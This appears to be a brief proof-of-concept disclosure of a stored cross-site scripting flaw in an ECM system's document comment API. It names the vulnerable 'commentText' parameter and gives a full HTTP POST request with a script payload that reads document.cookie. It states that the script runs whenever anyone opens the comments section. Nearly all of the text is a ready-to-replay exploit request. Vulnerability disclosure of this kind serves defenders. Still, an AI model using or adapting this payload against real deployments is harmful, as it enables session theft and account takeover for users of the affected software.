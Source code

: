 # xss-s-1

Send a post to `/ecm/api/rest/ecm/sociableDocument/documentComment/`. You need changed the value of `documentId` with document id and `commentText` with your payload. The vulnerable parameter is `commentText`. In this case, there is no specific endpoint to view the Stored XSS, it can be triggered simply by opening any part of the document's comments section.

```
POST /ecm/api/rest/ecm/sociableDocument/documentComment/ HTTP/2
Host: host.com
Cookie: JSESSIONID=session; JSESSIONIDSSO=sessionSSO
Content-Type: application/json; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 93

{"documentId":DOCUMENT_ID,"version":1000,"commentText":"<script>alert(document.cookie)</script>"}
```
